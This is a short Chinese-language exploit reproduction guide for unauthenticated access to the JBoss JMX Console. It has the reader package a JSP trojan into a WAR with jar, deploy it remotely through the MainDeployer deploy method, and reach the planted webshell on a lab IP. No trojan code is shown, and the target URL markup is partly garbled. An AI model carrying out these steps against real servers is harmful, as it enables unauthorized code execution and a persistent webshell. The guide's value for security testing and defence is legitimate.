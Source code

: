 JBoss JMX Console未授权访问Getshell
===================================

一、漏洞简介
------------

二、漏洞影响
------------

全版本

三、复现过程
------------

先输入[http://172.26.1.167:8080/jmx](http://172.26.1.167:8080/jmx-console/)-console/[null-console/](http://172.26.1.167:8080/jmx-console/)进入到页面

-   先点击[jboss.system](http://172.26.1.167:8080/jmx-console/HtmlAdaptor?action=displayMBeans&filter=jboss.system),然后点击[service=MainDeployer](http://172.26.1.167:8080/jmx-console/HtmlAdaptor?action=inspectMBean&name=jboss.system%3Aservice%3DMainDeployer)

![](resource/JBossJMXConsole未授权访问Getshell/media/rId27.png)

> 创建一个war包

先准备好一个jsp的木马,然后打开cmd创建,输入命令:jar -cvf
zfsn.war(你要创建war的名字，可随意填) zfsn. jsp

![](resource/JBossJMXConsole未授权访问Getshell/media/rId28.png)

我们找到methodIndex为17 or
19的deploy，把远程的war包填入进去，进行远程war包的部署

![](resource/JBossJMXConsole未授权访问Getshell/media/rId29.png)

部署完成之后,我们的木马地址为<http://172.26.1.167/zfsn/zfsn.jsp>

![](resource/JBossJMXConsole未授权访问Getshell/media/rId31.png)
